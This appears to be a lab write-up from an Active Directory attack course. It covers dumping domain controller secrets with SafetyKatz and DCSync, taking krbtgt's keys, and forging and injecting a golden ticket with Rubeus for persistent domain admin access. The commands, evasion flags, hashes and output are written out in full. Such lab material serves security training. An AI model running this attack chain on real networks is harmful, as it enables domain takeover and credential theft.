


# Learning Objective 08

## Tasks

1. **Extract secrets from the domain controller of `dollarcorp`**
2. **Using the secrets of `krbtgt` account, create a golden ticket**
3. **Use the golden ticket to (once again) get domain admin privileges from a machine**

---

## Solution

From the previous exercise (see *Learning Objective 07*), we have domain admin privileges! Let's extract all the hashes on the domain controller.

**Note:** Remember that the commands need to be executed from a process running with privileges of DA on your student VM.

1. **Extract secrets from the domain controller of `dollarcorp`**

Run the below command **from an elevated command prompt ('run as administrator')** to start a process with domain admin privileges.


`whoami /groups`:
```
GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes

========================================== ================ ============================================= ===============================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators👥                   Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner✅
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
dcorp\RDPUsers                             Group            S-1-5-21-719815819-3726368948-3917688648-1123 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

`klist`:
```
Current LogonId is 0:0x848dc4

Cached Tickets: (0)
```

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`:
```
[SNIP]

[*] Action: Ask TGT📌

[*] Got domain: dollarcorp.moneycorp.local
[*] Showing process : True
[*] Username        : B2PPNETU
[*] Domain          : XYERPPAZ
[*] Password        : NQFMD9B6
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 4128
[+] LUID            : 0x143ec18

[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1)
[!] Pre-Authentication required!
[!]     AES256 Salt: DOLLARCORP.MONEYCORP.LOCALsvcadmin
[*] Using aes256_cts_hmac_sha1 hash: 6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
[*] Building AS-REQ (w/ preauth) for: 'dollarcorp.moneycorp.local\svcadmin'
[*] Target LUID : 21228568
[*] Using domain controller: 172.16.2.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

[SNIP]

[*] Target LUID: 0x143ec18
[+] Ticket successfully imported!🎟️

  ServiceName              :  krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL
  ServiceRealm             :  DOLLARCORP.MONEYCORP.LOCAL🏛️
  UserName                 :  svcadmin🎭 (NT_PRINCIPAL)
  UserRealm                :  DOLLARCORP.MONEYCORP.LOCAL
  StartTime                :  2/13/2025 12:59:56 AM
  EndTime                  :  2/13/2025 10:59:56 AM
  RenewTill                :  2/20/2025 12:59:56 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  jkSjq92PAMd4qdKtBuUOHVTjm9BNiHX/080C89WMzn8=
  ASREP (key)              :  6366243A657A4EA04E406F1ABC27F1ADA358CCD0138EC5CA2835067719DC7011
```




`whoami /groups`:
```
ERROR: Unable to get group membership information.
```
❌

`klist`:
```
Current LogonId is 0:0x14ce21f

Cached Tickets: (1)🎟️

#0>     Client: svcadmin🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/13/2025 1:49:43 (local)
        End Time:   2/13/2025 11:49:43 (local)
        Renew Time: 2/20/2025 1:49:43 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

Run the below commands from the process running as DA to copy `Loader.exe` on `dcorp-dc` and use it to extract credentials.

`echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y`:
```
Does \\dcorp-dc\C$\Users\Public\Loader.exe specify a file name
or directory name on the target
(F = file, D = directory)? F
C:\AD\Tools\Loader.exe
1 File(s) copied
```

`winrs -r:dcorp-dc cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\svcadmin>
```
🚀


`whoami /groups`:
```
C:\Users\svcadmin>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                                   Type             SID                                          Attributes
============================================ ================ ============================================ ===============================================================
Everyone                                     Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access   Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                       Alias            S-1-5-32-544                                 Mandatory group, Enabled by default, Enabled group, Group owner
NT AUTHORITY\NETWORK                         Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users             Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization               Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
dcorp\Domain Admins👥                        Group            S-1-5-21-719815819-3726368948-3917688648-512 Mandatory group, Enabled by default, Enabled group✅
Authentication authority asserted identity   Well-known group S-1-18-1                                     Mandatory group, Enabled by default, Enabled group
dcorp\Denied RODC Password Replication Group Alias            S-1-5-21-719815819-3726368948-3917688648-572 Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\High Mandatory Level         Label            S-1-16-12288
```

`netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.22`



`C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-lsa /patch" "exit"`:
```
[SNIP]

mimikatz(commandline) # lsadump::evasive-lsa /patch📌
Domain : dcorp / S-1-5-21-719815819-3726368948-3917688648

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : af0686cc0ca8f04df42210c9ac980760

[SNIP]

RID  : 000001f6 (502)
User : krbtgt👤
LM   :
NTLM : 4e9815869d2090ccfca61c1fe0d23986🧩

[SNIP]

RID  : 000003e8 (1000)
User : DCORP-DC$
LM   :
NTLM : 68d6c096c7cfee52a45d6207489526bc

[SNIP]
```

**Since we have domain admin privileges, we can perform a DCSync attack** to extract NTLM hashes and Kerberos keys directly from the Domain Controller.

DCSync is an attack that **abuses the Active Directory replication feature**. Normally, only Domain Controllers have the ability to replicate credentials, but accounts with specific replication permissions, such as **members of Domain Admins, Enterprise Admins, or accounts with the `Replicating Directory Changes All` permission**, can request and retrieve password hashes of all domain users, including `krbtgt`.

Since our user (`svcadmin`) is a domain administrator, it already has the necessary replication privileges, allowing us to perform the attack without modifying ACLs.

Run the below command **from process running as domain admin on the student VM**.

`exit`


`whoami /groups`:
```
ERROR: Unable to get group membership information.
```
❌

`klist`:
```
Current LogonId is 0:0x15a746a

Cached Tickets: (4)

#0>     Client: svcadmin🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/13/2025 1:49:43 (local)
        End Time:   2/13/2025 11:49:43 (local)
        Renew Time: 2/20/2025 1:49:43 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

[SNIP]
```

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"`:
```
[SNIP]

mimikatz(commandline) # lsadump::evasive-dcsync /user:dcorp\krbtgt📌
[DC] 'dollarcorp.moneycorp.local' will be the domain
[DC] 'dcorp-dc.dollarcorp.moneycorp.local' will be the DC server
[DC] 'dcorp\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt👤
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/11/2022 9:59:41 PM
Object Security ID   : S-1-5-21-719815819-3726368948-3917688648-502📌
Object Relative ID   : 502

Credentials:
  Hash NTLM: 4e9815869d2090ccfca61c1fe0d23986🧩
    ntlm- 0: 4e9815869d2090ccfca61c1fe0d23986
    lm  - 0: ea03581a1268674a828bde6ab09db837

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6d4cc4edd46d8c3d3e59250c91eac2bd

* Primary:Kerberos-Newer-Keys *
    Default Salt : DOLLARCORP.MONEYCORP.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848🔑
      aes128_hmac       (4096) : e74fa5a9aa05b2c0b2d196e226d8820e
      des_cbc_md5       (4096) : 150ea2e934ab6b80
      
[SNIP]
```
🚩

2. **Using the secrets of `krbtgt` account, create a golden ticket**

Use the below Rubeus command to **generate an OPSEC friendly command for golden ticket**.

Note that 3 LDAP queries are sent to the DC to retrieve the required information.


`whoami /groups`:
```
GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes

========================================== ================ ============================================= ===============================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators👥                   Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner✅
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
dcorp\RDPUsers                             Group            S-1-5-21-719815819-3726368948-3917688648-1123 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

`klist`:
```
Current LogonId is 0:0x848dc4

Cached Tickets: (0)
```

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd`:
```
[SNIP]

[*] Action: Build TGT📌

[*] Trying to query LDAP using LDAPS for user information on domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'DC=dollarcorp,DC=moneycorp,DC=local' for '(samaccountname=Administrator)'
[*] Retrieving group and domain policy information over LDAP from domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'DC=dollarcorp,DC=moneycorp,DC=local' for '(|(distinguishedname=CN=Group Policy Creator Owners,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local)(distinguishedname=CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local)(distinguishedname=CN=Administrators,CN=Builtin,DC=dollarcorp,DC=moneycorp,DC=local)(objectsid=S-1-5-21-719815819-3726368948-3917688648-513)(name={31B2F340-016D-11D2-945F-00C04FB984F9}))'
[*] Attempting to mount: \\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL
[*] \\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL successfully mounted
[*] Attempting to unmount: \\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL
[*] \\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL successfully unmounted
[*] Attempting to mount: \\us.dollarcorp.moneycorp.local\SYSVOL
[*] \\us.dollarcorp.moneycorp.local\SYSVOL successfully mounted
[*] Attempting to unmount: \\us.dollarcorp.moneycorp.local\SYSVOL
[*] \\us.dollarcorp.moneycorp.local\SYSVOL successfully unmounted
[*] Retrieving netbios name information over LDAP from domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'CN=Configuration,DC=moneycorp,DC=local' for '(&(netbiosname=*)(dnsroot=dollarcorp.moneycorp.local))'
[*] Retrieving group information over LDAP from domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'DC=dollarcorp,DC=moneycorp,DC=local' for '(|(distinguishedname=CN=Group Policy Creator Owners,CN=Users,DC=us,DC=dollarcorp,DC=moneycorp,DC=local)(distinguishedname=CN=Domain Admins,CN=Users,DC=us,DC=dollarcorp,DC=moneycorp,DC=local)(distinguishedname=CN=Administrators,CN=Builtin,DC=us,DC=dollarcorp,DC=moneycorp,DC=local)(objectsid=S-1-5-21-1028785420-4100948154-1806204659-513))'
[*] Retrieving netbios name information over LDAP from domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'CN=Configuration,DC=moneycorp,DC=local' for '(&(netbiosname=*)(dnsroot=dollarcorp.moneycorp.local))'
[*] Building PAC

[SNIP]

[*] Printing a command to recreate a ticket containing the information used within this ticket📌

C:\AD\Tools\Loader.exe Evasive-Golden /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:34:22 AM" /minpassage:1 /logoncount:244 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD📌
```

Now, use the generated command to forge a golden ticket.

Remember to add `-path C:\AD\Tools\Rubeus.exe -args` after `Loader.exe` and `/ptt` at the end of the generated command to inject it in the current process.

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:34:22 AM" /minpassage:1 /logoncount:152 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt`:
```
[SNIP]

[*] Action: Build TGT📌

[*] Building PAC

[*] Domain         : DOLLARCORP.MONEYCORP.LOCAL (dcorp)
[*] SID            : S-1-5-21-719815819-3726368948-3917688648
[*] UserId         : 500
[*] Groups         : 544,512,520,513
[*] ServiceKey     : 154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : 154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : krbtgt📌
[*] Target         : dollarcorp.moneycorp.local

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'Administrator🎭@dollarcorp.moneycorp.local'🏛️

[*] AuthTime       : 2/13/2025 1:39:41 AM
[*] StartTime      : 2/13/2025 1:39:41 AM
[*] EndTime        : 2/13/2025 11:39:41 AM
[*] RenewTill      : 2/20/2025 1:39:41 AM

[*] base64(ticket.kirbi):

[SNIP]

[+] Ticket successfully imported!🎟️
```

`klist`:
```
Current LogonId is 0:0x848dc4

Cached Tickets: (1)

#0>     Client: Administrator🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: krbtgt/dollarcorp.moneycorp.local @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 2/13/2025 1:39:41 (local)
        End Time:   2/13/2025 11:39:41 (local)
        Renew Time: 2/20/2025 1:39:41 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```
🚩

Once the ticket is injected, we can access resources in the domain.

3. **Use the golden ticket to (once again) get domain admin privileges from a machine**

`winrs -r:dcorp-dc cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator>
```
🚀


`whoami /groups`:
```
GROUP INFORMATION
-----------------

Group Name                                   Type             SID                                          Attributes

============================================ ================ ============================================ ===============================================================
Everyone                                     Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                       Alias            S-1-5-32-544                                 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                                Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access   Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                         Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users             Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization               Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
                                             Unknown SID type S-1-5-21-719815819-3726368948-3917688648-544 Mandatory group, Enabled by default, Enabled group
dcorp\Domain Admins👥                        Group            S-1-5-21-719815819-3726368948-3917688648-512 Mandatory group, Enabled by default, Enabled group✅
dcorp\Group Policy Creator Owners            Group            S-1-5-21-719815819-3726368948-3917688648-520 Mandatory group, Enabled by default, Enabled group
dcorp\Denied RODC Password Replication Group Alias            S-1-5-21-719815819-3726368948-3917688648-572 Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\High Mandatory Level         Label            S-1-16-12288
```
🚩

---
---
